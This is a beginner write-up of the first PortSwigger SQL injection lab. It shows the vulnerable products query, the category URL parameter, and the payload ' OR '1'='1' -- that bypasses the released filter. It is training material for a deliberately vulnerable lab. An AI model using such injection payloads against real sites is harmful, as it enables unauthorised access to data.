


## Introduction

This is the first PortSwigger SQL injection lab. The goal is to retrieve hidden products by injecting into the category filter.

The vulnerable query is something like:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1;
```

The site uses a category filter in the URL, so this is a good place to start with SQLi.

## Recon

The app is a simple e-commerce site with a few categories. When we choose one, the browser sends a request like:

```text
/filter?category=Clothing%2c+shoes+and+accessories
```

That category parameter looks very suspicious and is a strong candidate for injection.



## Exploitation

To bypass the `released = 1` condition and show both released and unreleased products, we use:

```sql
' OR '1'='1' --
```

This closes the original string, forces the condition to true, and comments out the rest.

The payload becomes:

```sql
SELECT * FROM products WHERE category = 'Clothing, shoes and accessories' OR '1'='1' -- AND released = 1;
```

That makes the query return all products and solves the lab.



## Conclusion

This lab is a beginner-friendly introduction to SQL injection. It shows the classic trick of breaking out of a quoted string and turning a condition into an always-true one.
